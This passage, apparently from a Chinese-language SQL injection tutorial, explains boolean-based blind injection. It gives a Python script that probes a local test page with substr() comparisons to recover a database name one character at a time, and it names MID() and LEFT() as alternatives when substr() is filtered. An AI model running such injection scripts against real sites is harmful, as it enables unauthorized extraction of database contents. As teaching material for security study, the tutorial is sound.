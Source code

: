 ```text
import requests

url = 'http://127.0.0.1/boolean.php?id=1'
poc_str = 'abcdefghijklmnopqrstuvwxyz0123456789'
for num in range(1,6):
    for char in poc_str:
        str_check_poc = "' and substr(database(),"+ str(num) +",1)='" + char + "' --+"
        r = requests.get(url + str_check_poc)
        if r.text == 'yes':
            print('[+]数据库库名第'+ str(num) +'个字符为' + char)
            break
```

我们可以看到数据库库名每个字符是什么，拼接到一起即数据库库名为`users`

![&#x5224;&#x65AD;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../../../.gitbook/assets/tu-pian%20%2832%29.png)

同样的，如果`substr()` 被禁用了，我们也可以使用`MID()` 或者`LEFT()` 来实现上述过程。

`SELECT MID(database(),1,1);`

![](../../../.gitbook/assets/tu-pian%20%2844%29.png)

`SELECT left(database(),1);`

![](../../../.gitbook/assets/tu-pian%20%2873%29.png)
